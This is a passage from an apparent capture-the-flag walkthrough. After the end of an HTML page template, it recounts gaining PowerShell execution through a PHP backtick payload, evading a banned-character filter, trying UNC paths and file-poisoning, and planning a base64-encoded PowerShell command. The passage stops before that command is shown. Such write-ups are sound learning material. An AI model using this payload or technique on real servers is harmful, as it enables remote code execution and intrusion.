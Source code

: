     <!--===============================================================================================-->                                                                                                                                
            <script src="vendor/bootstrap/js/popper.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                                         
            <script src="vendor/bootstrap/js/bootstrap.min.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                                  
    <!--===============================================================================================-->                                                                                                                                
            <script src="vendor/select2/select2.min.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                                         
    <!--===============================================================================================-->                                                                                                                                
            <script src="vendor/daterangepicker/moment.min.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                                  
            <script src="vendor/daterangepicker/daterangepicker.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                             
    <!--===============================================================================================-->                                                                                                                                
            <script src="vendor/countdowntime/countdowntime.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                                 
    <!--===============================================================================================-->                                                                                                                                
            <script src="js/main.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                         
    
            <?php } ?>                                       
    </html> 
    

#### Shell

I can’t use and of: `-$[(_.;&"\`. I’ve already got PowerShell execution
working through this:

    
    
    <?php echo `powershell [command]` ?>     
    

I need a command I can put in that doesn’t use any of the banned characters.

Some of the things I tried that failed:

  * Creating a UNC path to run off my SMB server using IPv6. It doesn’t work, because [IPv6s in UNC paths](https://en.wikipedia.org/wiki/IPv6_address#Literal_IPv6_addresses_in_UNC_path_names) have the `:` replaced by `-`.
  * Finding and trying to poison `\programdata\data\sniper\users.ibd`, which is a backup of the users database. It has not only my username by the email address, which is less filtered. I had a lot of trouble getting this file to include, though I know of at least one person who was able to make this work.

This would all be easier if I could run a base64-encoded command. Typically I
think of doing that by running `powershell -enc [base64-string]`. But it also
works with `/enc`.

I’ll make the command, making sure to convert to 16-bit unicode characters
with `iconv`:
